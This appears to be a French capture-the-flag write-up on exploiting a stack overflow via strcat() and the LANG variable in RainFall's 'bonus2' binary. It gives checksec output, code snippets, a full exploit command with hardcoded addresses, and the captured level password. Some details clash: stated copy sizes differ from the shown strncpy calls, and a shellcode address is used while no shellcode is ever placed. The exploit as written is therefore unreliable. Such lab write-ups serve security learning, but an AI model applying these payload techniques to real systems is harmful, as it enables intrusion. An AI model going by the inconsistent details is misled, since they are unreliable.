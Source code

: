 # Exploitation du binaire `bonus2` – Challenge CTF RainFall

## 🎯 Objectif

Exploiter une vulnérabilité de type **stack overflow** dans le programme `bonus2`, afin de prendre le contrôle du flux d’exécution et accéder au flag du niveau suivant.

---

## ✅ 1. Analyse statique initiale

### ⚠️ Protections binaires

```bash
checksec --file bonus2
```

**Résultat :**

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   bonus2
```

> Le binaire ne dispose d'aucune protection moderne. Il est vulnérable aux overflows classiques (pas de canary, NX, PIE...).

### 🔍 Fonctions sensibles (GOT/PLT)

On observe les fonctions suivantes liées dynamiquement :

* `strcat()` → vulnérable aux overflows
* `strncpy()` → utilisée pour copier les entrées utilisateur
* `getenv()` → permet d'utiliser des variables d'environnement

---

## 📊 2. Analyse dynamique et comportement de `main`

### Conditions d'exécution

```asm
cmp $0x3, [ebp+8] ; argc == 3 ?
je  continue
jmp exit
```

✅ Le programme attend **exactement deux arguments utilisateur** en plus du nom du programme, sinon il quitte.

### Structure mémoire

* Un buffer local de **76 octets** est alloué et mis à zéro.
* `argv[1]` est copié dans les **40 premiers octets**.
* `argv[2]` est copié dans les **36 octets suivants**.

```c
strncpy(buffer, argv[1], 40);
strncpy(buffer + 40, argv[2], 32);
```

### Analyse des usages

* Ce buffer est ensuite transmis à `greetuser()`.

---

## 🔎 3. Analyse de `greetuser()`

* Selon la valeur d'une variable globale, une chaîne est copiée dans un buffer local.
* Cette chaîne provient indirectement de `getenv("LANG")`.
* Puis, cette chaîne est **concaténée** au buffer passé en argument via `strcat()`.

```c
strcat(buffer, greeting);
puts(buffer);
```

### Problème critique

* `strcat()` suppose que `buffer` est bien terminé par `\0`, ce qui **n'est pas vérifié** ici.
* Si `argv[1]` et `argv[2]` remplissent tout le buffer (76 octets), la concaténation écrase la pile : **overflow !**

---

## ⚔️ 4. Construction de l'exploit

### Préparation

On choisit de :

* Fournir un `argv[1]` de **76 octets** ("A") pour remplir le buffer
* Fournir un `argv[2]` spécialement formé avec :

  * Padding : 18 octets ("B")
  * Adresse de retour intermédiaire : `0x08048637` (un `ret` neutre)
  * Adresse de shellcode : `0xbfffff2a` (dans la stack)

### Condition d'exécution : LANG doit être "fi"

```bash
export LANG=fi
```

### Lancement de l'exploit

```bash
./bonus2 \
  $(python -c 'print("A"*76)') \
  $(python -c 'print("B"*18 + "\x37\x86\x04\x08" + "\x2a\xff\xff\xbf")')
```

### Sortie attendue

```
Hyvää päivää AAAAAAAAAA...BBBBBB7*���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

---

## 🔒 5. Conclusion

* Le binaire est une cible facile à exploiter : absence totale de protections.
* La méconnaissance de `strcat()` combinée à l'usage de `getenv()` et d'entrées non vérifiées rend l'exploit trivial.
* En reconstituant l'empilement de la stack, on définit un payload sur mesure pour prendre le contrôle du `ret` de `greetuser()`.

### 🏆 Flag obtenu

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

---

**Challenge :** RainFall / Bonus2
**Technique :** Stack overflow via `strcat()` + getenv("LANG")

